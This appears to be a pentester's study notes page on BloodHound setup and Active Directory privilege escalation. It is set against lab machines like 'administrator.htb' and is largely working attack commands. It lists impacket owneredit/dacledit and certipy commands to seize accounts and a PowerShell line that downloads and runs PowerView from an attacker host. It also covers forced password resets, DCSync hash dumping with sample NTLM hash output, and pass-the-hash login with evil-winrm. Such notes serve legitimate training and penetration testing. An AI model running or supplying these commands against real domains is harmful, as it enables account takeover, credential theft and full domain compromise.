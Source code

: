 ## Bloodhound Setup
https://www.kali.org/tools/bloodhound/

```
sudo neo4j start
# go to http://localhost:7474 an change default credentials
bloodhound
# authenticate with the new credentials
```
 ## Data collection
### SharpHound
Only on Windows

### BloodHound.py
https://www.kali.org/tools/bloodhound.py/

```
# -c All to collect everything
bloodhound-python -d <domain> -u <user> -p <password> -ns <DC IP> -c All
```
### Import data
1. In BloodHound GUI → click Upload Data (usually top-right, cloud-upload icon).
2. Select the directory or files → pick all your .json files from BloodHound.py.
3. BloodHound will parse and import the data into Neo4j.
   
 ## Running queries
1. Go through all owned accounts and mark them as owned (RMB -> Mark as owned)
2. Go through all interesting accounts and mark as High value
3. Go through pre-built queries, Click on nodes etc.

CLICK RMP ON EDGE -> Help!!!

It will show Abuse commands!!!

## Escalation Paths

### WriteOwner
[User1] --WriteOwner-> [User2/Group2]

https://www.hackingarticles.in/abusing-ad-dacl-writeowner/
```
# User
impacket-owneredit -action write -new-owner '<User1>' -target-dn '<User2 DN copy from BH>' '<domain>'/'<User1>':'<U1 Pass>' -dc-ip <IP>
impacket-dacledit -action write -rights 'FullControl' -principal '<User1>' -target-dn '<User2 DN copy from BH>' '<domain>'/'<User1>':'<U1 Pass>' -dc-ip <IP>
# Group
impacket-owneredit -action write -new-owner '<User1>' -target-dn '<Group2 DN copy from BH>' '<domain>'/'<User1>':'<U1 Pass>' -dc-ip <IP>
impacket-dacledit -action write -rights 'WriteMembers' -principal '<User1>' -target-dn '<Group2 DN copy from BH>' '<domain>'/'<User1>':'<U1 Pass>' -dc-ip <IP>
```
Now either add own account to target group, or reset target account password 
(Reference this link: https://www.hackingarticles.in/abusing-ad-dacl-writeowner/)

In the particular example the target user was Cert Authority user, so I could do this:

http://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.html#vulnerable-certificate-template-access-control---esc4
```
certipy-ad shadow auto -u '<user1>@<domain>' -p "<U1 pass>" -account '<User2>' -dc-ip '<IP>' 
```
### ForceChangePassword
Inside *Evil-WinRM* session
```
IEX (New-ObjectNet.WebClient).DownloadString('http://<KALI IP>:4000/PowerView.ps1')
$SecPassword = ConvertTo-SecureString '<User1 Pass>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential ('<Domain>\<User1>', SecPassword)
$UserPassword = ConvertToSecureString 'qweQWE123!@#!' -AsPlainText -Force
Set-DomainUserPassword -Identity <User2> -AccountPassword $UserPassword -Credential $Cred
```

### GenericWrite
Use `TargetedKerberoast`

https://github.com/nestef23/my-OSCP-notes/blob/main/Active%20Directory/Kerberoasting.md#targetedkerberospy

### DCSync
```
secretsdump.py '<Domain>'/'<User>':'<Password>'@'<DC Name / IP>'
```
This dumps a lot of hashes
```
[...]
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
administrator.htb\alexander:3601:aad3b435b51404eeaad3b435b51404ee:cdc9e5f3b0631aa3600e0bfec00a0199:::
administrator.htb\emma:3602:aad3b435b51404eeaad3b435b51404ee:11ecd72c969a57c34c819b41b54455c9:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:cf411ddad4807b5b4a275d31caa1d4b3:::
[...]
```
Use them with `evil-winrm`
```
evil-winrm -i <domain> -u <user> -H'<NT hash - 2nd part>'

```
